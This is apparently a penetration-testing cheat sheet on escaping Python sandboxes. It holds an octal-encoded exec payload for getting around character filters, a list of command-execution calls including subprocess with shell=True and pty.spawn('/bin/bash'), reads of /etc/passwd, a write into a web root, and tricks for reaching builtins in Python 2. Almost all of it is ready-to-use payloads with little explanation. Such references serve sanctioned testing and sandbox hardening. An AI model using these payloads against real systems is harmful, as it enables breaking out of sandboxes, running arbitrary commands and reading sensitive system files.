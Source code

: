 # Python Sandbox

## Bypass forbidden characters

* Target command
  * `exec("print('RCE'); __import__('os').system('ls')")`
* Updated command, after converting payload to octal
  * `exec("\160\162\151\156\164\050\047\122\103\105\047\051\073\040\137\137\151\155\160\157\162\164\137\137\050\047\157\163\047\051\056\163\171\163\164\145\155\050\047\154\163\047\051")`
* Alteratively you can convert to octal, hex, base64

## Alternative functions

```python
### Command execution and file read ##########################
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')


### importing libraries ########################################
# 1
import os
from os import *
__import__('os').system("ls")

# 2
sys.modules["os"].system("ls")

#3 - python2
execfile('/usr/lib/python2.7/os.py')
system('ls')

```

## Python builtins

* In python version 2.7.18
  * `__builtin__` is a module that stores all built in functions
  * You could print all built in functions using `dir(__builtin__)`
  * All functions except print will work normally, to execute print normally you need to first run `from __future__ import print_function`
* Examples
  * `import __builtin__`
  * `__builtin__.len("hello")`
  * `__builtin__.range(1,20)`
  * `__builtin__.print("hello")`
  * `from __future__ import print_function`
  * `__builtin__.print("hello")`

